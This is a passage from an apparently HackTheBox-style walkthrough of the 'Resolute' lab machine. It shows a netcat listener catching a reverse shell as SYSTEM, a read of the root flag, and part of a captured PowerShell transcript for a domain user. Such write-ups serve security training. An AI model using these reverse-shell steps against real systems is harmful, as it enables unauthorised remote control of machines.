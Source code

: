 
Then I’ll get a shell:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.169.
    Ncat: Connection from 10.10.10.169:50160.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

And from there, grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    e1d94876************************
    

## Beyond Root - PowerShell Transcript

I didn’t include the full transcript above, but here it is:

    
    
    **********************
    Windows PowerShell transcript start
    Start time: 20191203063201
    Username: MEGABANK\ryan
    RunAs User: MEGABANK\ryan
    Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
    Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
    Process ID: 2800
    PSVersion: 5.1.14393.2273
    PSEdition: Desktop
    PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
    BuildVersion: 10.0.14393.2273
    CLRVersion: 4.0.30319.42000
    WSManStackVersion: 3.0
    PSRemotingProtocolVersion: 2.3
    SerializationVersion: 1.1.0.1
    **********************
    Command start time: 20191203063455
    **********************
    PS>TerminatingError(): "System error."
    >> CommandInvocation(Invoke-Expression): "Invoke-Expression"
    >> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
    if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
    >> CommandInvocation(Out-String): "Out-String"
    >> ParameterBinding(Out-String): name="Stream"; value="True"
    **********************
    Command start time: 20191203063455
    **********************
    PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
    PS megabank\ryan@RESOLUTE Documents>
    **********************
    Command start time: 20191203063515
    **********************
    PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"